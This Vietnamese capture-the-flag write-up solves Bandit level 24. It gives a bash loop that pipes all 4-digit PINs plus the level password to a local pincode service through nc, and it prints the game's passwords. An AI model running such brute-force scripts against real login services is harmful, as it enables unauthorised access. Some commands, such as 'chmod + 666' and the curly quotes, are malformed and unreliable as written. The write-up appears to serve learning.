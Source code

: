 # Level 24
`Level này tập trung vào khái niệm *bruteforce* cơ bản và một chút về viết script`
###### user: bandit24; password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
Yêu cầu level: gửi chuỗi bao gồm password cho level 24 và một mật khẩu 4 ký tự ngẫu nhiên vào, nếu đúng trả về kết quả.
*Lúc đầu mình thử tạo một file bruteforce.sh đơn thuần với chức năng bruteforce mật khẩu và chỉ in ra kết quả khi kết quả mà server chạy về khác với kết quả lỗi, tuy nhiên vì server sẽ chờ ~15s nên sẽ phải thêm một hàm để kill quá trình đó và chạy lại từ đầu. Rất mất thời gian và cồng kềnh nên sẽ thử phương pháp sau:
### 1. Tạo một thư mục cho file thực thi trong /tmp:
```
mkdir /tmp/hoang
cd /tmp/hoang
```
### 2. Tạo các file cần thiết:
`bruteforce.sh` tạo ra các dòng lệnh phục vụ cho việc bruteforce.
######
`bfline.txt` nhận các dòng lệnh từ bruteforce.sh và đẩy vào server.
######
`result.txt` nhận kết quả server trả về.
#### bruteforce.sh:
```bash
#!/bin/bash

for i in {1000..9999}
do
	echo “VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i” >> bfline.txt
done
cat bfline.txt | nc localhost 30002 > result.txt
```
### 3. Cấp quyền và chạy file:
```
chmod +x bruteforce.sh
chmod + 666 bfline.txt
chmod + 666 result.txt
./bruteforce.sh
```
### 4. Lọc kết quả:
##### Vì mặc định khi nhập sai, server sẽ trả về kết quả như sau:
`Wrong! Please enter the correct pincode. Try again`
##### Nên ta sẽ sử dụng lệnh `grep` để lọc kết quả:
```
cat result.txt | grep -v -i “wrong”
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```
##### Key: *p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d*
